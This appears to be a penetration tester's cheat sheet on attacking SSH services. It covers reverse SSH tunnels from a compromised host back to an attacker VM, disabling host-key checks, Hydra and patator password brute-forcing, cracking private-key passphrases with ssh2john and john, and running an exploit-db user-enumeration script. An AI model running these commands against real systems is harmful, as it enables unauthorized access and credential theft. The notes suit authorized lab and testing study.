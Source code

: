 # 22 - SSH

{% hint style="danger" %}
In case it fails due to enconding > try

```
dos2unix id_rsa
```
{% endhint %}

## Solve ciphers and host keys issues

{% code overflow="wrap" fullWidth="true" %}
```bash
ssh root@10.11.1.1 -o KexAlgorithms=diffie-hellman-group1-sha1 -oHostKeyAlgorithms=+ssh-dss 
```
{% endcode %}

## Skip host key and password

{% code overflow="wrap" fullWidth="true" %}
```bash
ssh -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" [-p port] <username>@<IP|hostname>

# FOR THE HOST KEY (TYPICAL MESSAGE WHEN WE FIRST CONNECT VIA SSH)
ssh -R ... -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" kali@$IP

# EASY WAY TO ALLOW CONNECTIONS TO OUR MACHINE SAFELY - ADD A NEW USER TO OUR ATTACKING VM
sudo adduser tunneluser # set /bin/true as its shell and use a complex password

# ANOTHER WAY. TO NOT ENTER OUR PASSWORD, WE ALLOW THE VICTIM TO CONNECT TO US WITH SSH
mkdir -p /tmp/keys && cd keys
ssh keygen
Enter file: /tmp/keys/id_rsa
# Modify id_rsa.pub to put some restrictions: access only from that IP, ignore 
#commands, prevent agent and X11 forwarding, prevent the user from being allocated a tty
from="10.11.1.123",command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-X11-forwarding,no-pty ssh-rsa ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCxO27JE5uXiHqoUUb4j9o/IPHxsPg+fflPKW4N6pK0ZXSmMfLhjaHyhU r4auF+hSnF2g1hN4N2Z4DjkfZ9f95O7Ox3m0oaUgEwHtZcwTNNLJiHs2fSs7ObLR+gZ23kaJ+TYM8ZIo/ENC68 Py+NhtW1c2So95ARwCa/Hkb7kZ1xNo6f6rvCqXAyk/WZcBXxYkGqOLut3c5B+++6h3spOPlDkoPs8T5/wJNcn8 i12Lex/d02iOWCLGEav2V1R9xk87xVdI6h5BPySl35+ZXOrHzazbddS7MwGFz16coo+wbHbTR6P5fF9Z1Zm9O/ US2LoqHxs7OxNq61BLtr4I/MDnin www-data@box
# The file above has to be placed at ~/.ssh/authorized_keys
# Final SSH command
ssh -f -N -R ... -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /tmp/keys/id_rsa kali@$IP
```
{% endcode %}

## Log in with private key (id\_rsa)

```bash
cat id_rsa > authorized_keys

# Copy the content to local with id_rsa name.
chmod 600 id_rsa
ssh -i id_rsa
```

## Brute force with Hydra

```bash
hydra -l $USER -P rockyou.txt ssh://$IP:$PORT
```

## Crack private keys with ssh2john and john

```bash
./usr/share/john/ssh2john.py id_rsa.private > id_rsa.john

john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.john #get passphrase
```

## sshpass

```bash
sshpass -P 'password' user@target
```

## RSA / Retrieve private key from weak public key

RSA attack tool (mainly for CTF) - retrieve private key from weak public key and/or uncipher data

[https://github.com/RsaCtfTool/RsaCtfTool](https://github.com/RsaCtfTool/RsaCtfTool)

## Brute force old SSH/web with patator

{% code overflow="wrap" fullWidth="true" %}
```bash
patator ssh_login host=10.0.0.1 user=root password=FILE0 0=passwords.txt -x ignore:mesg='Authentication failed.'

patator http_fuzz url="" method=POST body='username=admin&password=FILE0' 0=rockyou.txt -x ignore:fgrep="Invalid password"
```
{% endcode %}

## User enumeration script

```bash
# OpenSSH < 7.7
https://www.exploit-db.com/exploits/45939
python 45939.py $IP $USERNAME
```

## OpenSSL exploit

We need the public key, combined with the very old version of openssl running on the system

(openssl version found with the `dpkg -l` command)

## From SSH encrypted key to non-password key

```
openssl rsa -in home/user/.ssh/encrypted_id_rsa -out ~/decrypted_id_rsa
```

